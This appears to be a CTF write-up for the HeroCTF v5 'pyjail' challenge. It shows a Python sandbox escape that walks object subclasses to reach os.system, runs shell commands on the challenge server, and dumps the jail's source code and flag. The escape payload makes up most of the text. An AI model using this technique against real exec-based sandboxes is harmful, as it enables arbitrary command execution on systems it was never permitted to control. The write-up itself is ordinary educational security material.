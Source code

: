 # HeroCTF v5 <!-- omit in toc -->

<!-- ctf link -->
https://ctf.heroctf.fr/


- [pyjail](#pyjail)


## pyjail

### SOLUTION <!-- omit in toc -->

https://graneed.hatenablog.com/entry/2018/09/09/020759#Python-for-fun

を参考にしました。

```python
print(().__class__.__bases__[0].__subclasses__()[109])
<class 'codecs.StreamReaderWriter'>
print(().__class__.__bases__[0].__subclasses__()[109].__init__.__globals__['sys'])
print(().__class__.__bases__[0].__subclasses__()[109].__init__.__globals__['sys'].modules['os'])
print(().__class__.__bases__[0].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].system("pwd"))
().__class__.__bases__[0].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].system("ls")
entry.sh
pyjail.py
().__class__.__bases__[0].__subclasses__()[109].__init__.__globals__["sys"].modules["os"].system("cat ./pyjail.py")
#! /usr/bin/python3

# FLAG : Hero{nooooo_y0u_3sc4p3d!!}

def jail():
    user_input = input(">> ")

    filtered = ["eval", "exec"]

    valid_input = True
    for f in filtered:
        if f in user_input:
            print("You're trying something fancy aren't u ?")
            valid_input = False
            break
    for l in user_input:
        if ord(l) < 23 or ord(l) > 126:
            print("You're trying something fancy aren't u ?")
            valid_input = False
            break

    if valid_input:
        try:
            exec(user_input, {'__builtins__':{'print': print, 'globals': globals}}, {})
        except:
            print("An error occured. But which...")

def main():
    try:
        while True:
            jail()
    except KeyboardInterrupt:
        print("Bye")

if __name__ == "__main__":
    main()
```


### FLAG <!-- omit in toc -->

```bash
Hero{nooooo_y0u_3sc4p3d!!}
```
### REF <!-- omit in toc -->

https://graneed.hatenablog.com/entry/2018/09/09/020759#Python-for-fun

